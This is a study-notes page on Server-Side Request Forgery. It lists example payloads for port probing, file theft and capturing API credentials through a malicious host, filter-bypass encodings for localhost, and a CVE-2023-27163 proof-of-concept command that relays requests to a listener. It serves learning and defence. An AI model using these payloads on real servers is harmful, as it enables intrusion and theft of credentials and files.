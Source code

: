 # Server-Side Request Forgery (SSRF)

[Go back](../../index.md)

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-lg-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common usages are:

* Port mapping
* Firewall by-pass
* Steal sensitive data
</div><div>

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client 
</div></div>

<hr class="sep-both">

## Common payloads

<div class="row row-cols-lg-2"><div>

#### Forms

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

**Mapping ports/services** 🗺️

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small>.

**Steal files** 💰

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.
</div><div>

#### URL

**Access another untended path** ✂<br> `a?api=path` $\to$ `b/path`

In that case, you could guess that the first server A is mapping the value given to `api` to the server b. You may try to inject the path, and see if you can access other API routes.

**Steal API credentials** 🗝️<br> `a?api=xxx&r=path` $\to$ `xxx.b/path`

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

For instance, with the `api=xxx`, a normal request could be sent to `xxx.thebestapi.com/path`. But, if a hacker uses `api=malicious_website.com?&ignore=`, then the URL crafted is `malicious_website.com?&ignore=.thebestapi.com/path`. Notice that the request is now sent to another website, and the concatenated domain name is now the value of `ignore`.
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

<div class="row row-cols-lg-2"><div>

**Allow List/Whitelist**

It's usually the better way. But, if there is a condition like `the URL must start with https://example.com`, then it can be bypassed with `https://example.com.malicious.website`.

**Others**

* Check that the resource type is what was expected
* ...

</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost (127.0.0.1), or 169.254.169.254 in a cloud environment, but there are usually a lot of ways to bypass such filters.

For instance, `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening), `2130706433` (decimal), `017700000001` (octal), and many more such as [127.0.0.1.nip.io](http://127.0.0.1.nip.io)/[localtest.me](http://localtest.me) are all resolving to `127.0.0.1`.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.02k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # send to listener
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:port2 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* Blind SSRF (requestbin/burp collaborator)
</div></div>
